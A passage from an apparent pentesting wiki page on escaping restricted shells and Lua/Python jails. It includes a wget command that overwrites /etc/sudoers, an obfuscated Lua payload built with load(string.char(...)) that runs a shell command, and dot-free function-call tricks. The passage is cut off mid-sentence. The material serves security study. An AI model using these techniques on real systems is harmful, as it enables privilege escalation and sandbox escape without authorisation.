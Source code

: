 You can overwrite for example sudoers file

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

### Other tricks

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**It could also be interesting the page:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Jails

Tricks about escaping from python jails in the following page:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

In this page you can find the global functions you have access to inside lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval with command execution:**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

Some tricks to **call functions of a library without using dots**:

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

Enumerate functions of a library:

```bash
for k,v in pairs(string) do print(k,v) end
```

Note that every time you execute the previous one liner in a **different lua environment the order of the functions change**. Therefore if you need to execute one specific function you can perform a brute force attack loading different lua environments and calling the first function of le library:
